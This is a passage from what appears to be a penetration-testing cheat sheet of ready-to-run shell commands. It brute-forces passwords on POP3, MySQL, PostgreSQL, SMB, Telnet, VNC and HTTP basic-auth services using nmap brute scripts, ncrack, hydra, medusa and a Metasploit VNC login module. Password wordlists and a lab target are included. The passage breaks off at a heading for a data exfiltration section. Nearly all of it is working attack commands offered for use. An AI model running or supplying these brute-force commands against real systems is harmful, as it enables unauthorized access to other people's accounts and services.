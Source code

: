 ```shell
## POP3 (email)
nmap -p110,995 --script pop3-brute "$T"
```

```shell
## MySQL
nmap -p3306 --script mysql-brute "$T"
```

```shell
## PostgreSQL
nmap -p5432 --script pgsql-brute "$T"
```

```shell
## SMB (windows)
nmap --script smb-brute "$T"
```

```shell
## Telnet
nmap -p23 --script telnet-brute --script-args telnet-brute.timeout=8s "$T"
```

```shell
## VNC
nmap -p5900 --script vnc-brute "$T"
ncrack -P "${PLIST}" --user root "vnc://$T"
hydra -P "${PLIST}" "vnc://$T"
medusa -P "${PLIST}" –u root –M vnc -h "$T"
```

```shell
## VNC (with metasploit)
msfconsole
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.0.1
set pass_file /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt
run
```

```shell
## HTML basic auth
echo admin >user.txt                     # Try only 1 username
echo -e "blah\naaddd\nfoobar" >pass.txt  # Add some passwords to try. 'aaddd' is the valid one.
nmap -p80 --script http-brute --script-args \
   http-brute.hostname=pentesteracademylab.appspot.com,http-brute.path=/lab/webapp/basicauth,userdb=user.txt,passdb=pass.txt,http-brute.method=POST,brute.firstOnly \
   pentesteracademylab.appspot.com
```

---
<a id="exfil"></a>
## 4. Data Upload/Download/Exfil
<a id="file-encoding"></a>
